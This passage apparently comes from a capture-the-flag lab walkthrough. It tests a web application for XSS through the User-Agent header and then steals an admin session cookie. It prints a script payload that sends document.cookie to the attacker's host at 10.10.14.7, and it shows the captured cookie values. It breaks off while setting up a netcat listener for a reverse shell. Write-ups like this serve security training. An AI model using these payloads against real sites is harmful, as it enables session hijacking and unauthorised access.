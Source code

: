 Let's test for **XSS injection** by modifying the **User-Agent** with payload:

```html
<script>alert(0);</script>
```

![[bs_support_script.png]]

The alert executes successfully:

![[xss_vulnerability_detected.png]]

Thus, the application is vulnerable to **XSS**.

---
### 3.2 Cookie Stealing via XSS

We can steal the admin’s session cookie with the following payload:

```html
<script>var i=new Image(); i.src="http://10.10.14.7/?cookie=" + document.cookie</script>
```

![[bs_sending_cookie.png]]

Start a Python server and wait for incoming requests:

![[cookies_receive.png]]

We receive two cookies:
- Our own session
- An **admin session** cookie

```
InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

We replace our cookie in the browser with the admin’s:

![[admin_dashboard.png]]

We now have access to the Dashboard.

---
### 3.3 Reverse Shell Injection

On the dashboard, selecting *Generate Report* sends a request with a `date` parameter:

![[admin_dashboard_generate_report.png]]  
![[bs_generate_report_original.png]]

Open a Netcat listener:

```bash
nc -nlvp 443
```
